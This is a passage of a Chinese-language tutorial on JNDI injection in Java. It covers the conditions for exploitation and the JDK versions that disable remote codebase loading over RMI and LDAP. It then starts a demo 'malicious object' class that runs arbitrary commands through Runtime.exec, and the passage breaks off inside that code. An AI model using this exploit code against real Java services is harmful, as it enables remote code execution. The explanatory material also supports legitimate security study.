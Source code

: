 ![](jndi/jndi_inj.png)


##### jndi注入的利用条件

- 客户端的lookup()方法的参数可控
- 服务端在使用Reference时，classFactoryLocation参数可控～

上面两个都是在编写程序时可能存在的脆弱点（任意一个满足就行），除此之外，jdk版本在jndi注入中也起着至关重要的作用，而且不同的攻击响亮对jdk的版本要求也不一致，这里就全部列出来：


- JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

 - JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

- JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。


##### jndi注入 demo

- 创建一个恶意对象

```java
import javax.lang.model.element.Name;
import javax.naming.Context;
import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.util.HashMap;

public class EvilObj {
    public static void exec(String cmd) throws IOException {
        String sb = "";
        BufferedInputStream bufferedInputStream = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
        BufferedReader inBr = new BufferedReader(new InputStreamReader(bufferedInputStream));
        String lineStr;
        while((lineStr = inBr.readLine()) != null){
            sb += lineStr+"\n";

        }
        inBr.close();
```